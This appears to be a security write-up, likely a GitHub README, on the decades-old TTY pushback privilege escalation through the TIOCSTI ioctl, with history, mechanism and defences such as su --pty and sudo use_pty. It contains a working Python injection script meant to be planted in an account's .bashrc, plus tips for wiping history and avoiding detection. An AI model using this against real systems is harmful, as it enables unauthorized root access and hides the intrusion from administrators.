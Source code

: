 ```yaml
---
title: The oldest privesc: injecting careless administrators' terminals using TTY pushback
---
```


This trick is possibly the oldest security bug that still exists today, it's been traced [as far back as 1985](https://web.archive.org/web/20031005121525/https://securitydigest.org/unix/archive/015).

It's been [discovered](https://www.openwall.com/lists/oss-security/2011/12/20/2) and [rediscovered](https://www.openwall.com/lists/oss-security/2012/11/05/8) and [re-rediscovered](https://seclists.org/oss-sec/2021/q4/43) by sysadmins, developpers and pentesters every few years for close to 4 decades now. It's been subject to [multiple](https://lore.kernel.org/kernel-hardening/1494450134.28559.2.camel@gmail.com/t/) [developper](https://lore.kernel.org/all/Y0m9l52AKmw6Yxi1@hostpad/) [battles](https://kernsec.org/pipermail/linux-security-module-archive/2017-May/001473.html), [countless](https://www.halfdog.net/Security/2012/TtyPushbackPrivilegeEscalation/) [posts](https://security.stackexchange.com/questions/136748/tty-push-back-priv-escalation), but still remains largely forgotten.

This is just another attempt at shedding light on it, for both attackers and defenders.


Why it works
============
The TIOCSTI ioctl can insert bytes in the tty's input queue. It is used to simulate terminal input.

When running ```su lowpriv_user```, by default no new pty is allocated:
![PTY stays the same](./TTYPushBack/pty_unchanged.PNG)

Therefore since we're still in the same pty, input can be sent directly *to the parent shell* to execute commands in its context.


Make it work
============
Consider this python sample and assume it's automatically being run at logon from the .bashrc of a technical account, such as postgres, to which the root user changes by typing ```su - postgres```:
```python
#!/usr/bin/env python3
import fcntl
import termios
import os
import sys
import signal

os.kill(os.getppid(), signal.SIGSTOP)

for char in sys.argv[1] + '\n':
    fcntl.ioctl(0, termios.TIOCSTI, char)
```

We're sending SIGSTOP to the lowpriv shell to get the focus back to its parent, the root shell.
Then sending the characters one by one using the TIOCSTI ioctl injects them into the root shell as if they were input manually, until '\n' is sent which executes the command.
And that's it, you're now root. Devilishly simple.


Always sneaking stabbing
------------------------
Running the following command will attempt to wipe most of your traces and get back to the lowpriv shell:
```cmd = ' set +o history\n' + sys.argv[1] + '\nfg\nreset\n'```

You should also wipe your payload from the .bashrc file.

Hopefully this doesn't alert the sysadmin.


Protecting against it
=====================
From su's manpage:
```
   -P, --pty
   Create a pseudo-terminal for the session. The independent terminal provides better security as the user does not share a terminal with the original session. This can be used to avoid TIOCSTI ioctl
   terminal injection and other security attacks against terminal file descriptors. The entire session can also be moved to the background (e.g., su --pty - username -c application &). If the
   pseudo-terminal is enabled, then su works as a proxy between the sessions (sync stdin and stdout).

   This feature is mostly designed for interactive sessions. If the standard input is not a terminal, but for example a pipe (e.g., echo "date" | su --pty), then the ECHO flag for the pseudo-terminal
   is disabled to avoid messy output.
```

Here's the protection in action (```fg``` has been manually inputed to return to lowpriv's shell, notice how the command was "buffered" until we came back to it):
![PTY has changed](./TTYPushBack/pty_changed.PNG)

Note that RHEL7 does not have the option, whereas RHEL8 does.

Note that the ```su``` command is not the only one affected by the bug, it's a broader problem due to the ioctl itself. From the sudoers(3) manpage:
```
    use_pty
    If set, and sudo is running in a terminal, the command will be run in a pseudo-terminal (even if no I/O logging is being done).  If the sudo process is not attached to a terminal,
    use_pty has no effect.

    A malicious program run under sudo may be capable of injecting commands into the user's terminal or running a background process that retains access to the user's terminal device even
    after the main program has finished executing.  By running the command in a separate pseudo-terminal, this attack is no longer possible.  This flag is off by default.
```

The ioctl also has been restricted for a number of years in grsecurity, under the name GRKERNSEC_HARDEN_TTY (2016?).

The Linux kernel 6.2 also has introduced an [optional mechanism](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=83efeeeb3d04) to protect against it.

Things are moving, albeit slowly, and are not defaults yet. This privesc will still be valid for the foreseeable future, don't forget it this time!

